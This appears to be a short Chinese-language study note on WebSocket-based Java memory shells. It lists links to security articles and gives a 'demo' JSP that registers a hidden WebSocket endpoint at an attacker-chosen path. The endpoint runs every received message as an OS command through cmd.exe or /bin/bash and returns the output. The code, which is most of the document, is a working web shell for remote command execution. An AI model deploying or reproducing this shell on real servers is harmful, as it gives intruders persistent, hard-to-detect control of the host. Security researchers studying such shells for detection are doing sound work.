

### 链接

https://www.freebuf.com/vuls/345739.html  (基础知识)

https://www.freebuf.com/vuls/346129.html

https://xz.aliyun.com/t/11566#toc-5

https://xz.aliyun.com/t/11549#toc-6

### demo

```java
<%@ page import="javax.websocket.server.ServerEndpointConfig" %>
<%@ page import="javax.websocket.server.ServerContainer" %>
<%@ page import="javax.websocket.*" %>
<%@ page import="java.io.*" %>

<%!
    public static class C extends Endpoint implements MessageHandler.Whole<String> {
        private Session session;
        @Override
        public void onMessage(String s) {
            try {
                Process process;
                boolean bool = System.getProperty("os.name").toLowerCase().startsWith("windows");
                if (bool) {
                    process = Runtime.getRuntime().exec(new String[] { "cmd.exe", "/c", s });
                } else {
                    process = Runtime.getRuntime().exec(new String[] { "/bin/bash", "-c", s });
                }
                InputStream inputStream = process.getInputStream();
                StringBuilder stringBuilder = new StringBuilder();
                int i;
                while ((i = inputStream.read()) != -1)
                    stringBuilder.append((char)i);
                inputStream.close();
                process.waitFor();
                session.getBasicRemote().sendText(stringBuilder.toString());
            } catch (Exception exception) {
                exception.printStackTrace();
            }
        }
        @Override
        public void onOpen(final Session session, EndpointConfig config) {
            this.session = session;
            session.addMessageHandler(this);
        }
    }
%>
<%
    String path = request.getParameter("path");
    ServletContext servletContext = request.getSession().getServletContext();
    ServerEndpointConfig configEndpoint = ServerEndpointConfig.Builder.create(C.class, path).build();
    ServerContainer container = (ServerContainer) servletContext.getAttribute(ServerContainer.class.getName());
    try {
        if (servletContext.getAttribute(path) == null){
            container.addEndpoint(configEndpoint);
            servletContext.setAttribute(path,path);
        }
        out.println("success, connect url path: " + servletContext.getContextPath() + path);
    } catch (Exception e) {
        out.println(e.toString());
    }
%>
```

截图：

